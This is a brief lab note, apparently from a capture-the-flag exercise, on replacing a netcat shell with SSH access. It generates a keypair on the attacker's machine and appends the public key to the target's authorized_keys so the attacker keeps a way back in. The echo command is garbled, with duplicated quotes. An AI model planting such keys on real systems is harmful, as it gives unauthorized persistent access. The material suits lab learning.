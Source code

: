 # Switch from netcat to ssh

<h2>1. step: Attacker pc:</h2>

```
$ ssh-keygen -t rsa -b 4096 -f thm_id_rsa -N ''
$ cat thm_id_rsa.pub
```


<h2>2. step: Target pc:</h2>

```
user@hostname:~$ mkdir -p ~/.ssh
mike@ip-10-10-31-139:~$ echo "
echo "
> KEY " >> ~/.ssh/authorized_keys
mike@ip-10-10-31-139:~$ chmod 700 ~/.ssh
mike@ip-10-10-31-139:~$ chmod 600 ~/.ssh/authorized_keys
```

<h2>3. step: Attacker pc </h2>

```
$ ssh -i thm_id_rsa user@ip
```
